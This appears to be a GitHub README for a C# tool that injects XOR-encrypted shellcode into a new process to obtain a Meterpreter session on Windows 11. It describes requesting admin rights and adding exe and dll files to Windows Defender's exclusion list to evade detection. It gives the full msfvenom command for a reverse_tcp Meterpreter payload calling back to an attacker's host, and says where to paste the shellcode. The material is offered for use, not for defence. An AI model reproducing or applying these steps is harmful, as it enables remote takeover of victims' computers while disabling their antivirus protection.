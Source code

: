 # get-meterpreter-on-windows 11

for information visit https://youtu.be/HrBr6uKGCxs and watch my video

this is a csharp program to inject xor encrypted shellcode into a new process
this is a modified code(the original code is from https://github.com/chr0n1k/AH2021Workshop/blob/master/Labs/Lab4:%20Simple%20process%20injection/program1.cs) that asks for admin rights at program startup and then adds exe and dll files to the exclusion list of windows defender to get a fully functional meterpreter session without have to worry about uploading stages won't work.

to generate shellcode use:

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IPADRESS> lport=<PORTNUMBER> -f csharp --encrypt xor --encryptkey ARICAHACKON



replace bytesize and shellcode in line 162:

byte[] xorshellcode = new byte[<YOUR BYTESIZE HERE>] {<YOUR SHELLCODE HERE>};
